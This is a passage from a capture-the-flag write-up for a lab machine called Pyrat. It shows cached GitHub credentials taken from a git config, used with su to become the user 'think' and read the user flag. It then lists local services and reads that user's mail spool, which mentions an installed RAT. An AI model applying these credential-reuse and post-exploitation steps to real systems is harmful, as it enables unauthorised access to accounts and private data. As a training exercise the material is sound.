 ```bash

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = <REDACTED>
```

Let's use these credentials to log in as the local user Think. We can use this access on the system to read the user flag.
```bash
www-data@Pyrat:/$ su think 
Password: 
think@Pyrat:/$ ls /home/think/
snap  user.txt 
```

## Post Exploitation
When we look at the services running locally on the target, we will notice that port 25 is open. Port 25 is the default port for SMTP protocol so let. The presence of this protocol may indicate that mail messages can be found on the system.
```bash
think@Pyrat:/$ netstat -nlt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25 
```

We can browse to the default directory where mail files are stored.
```bash
think@Pyrat:/$ cd /var/mail
think@Pyrat:/var/mail$ ls
root  think  www-data

think@Pyrat:/var/mail$ cat think 
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```
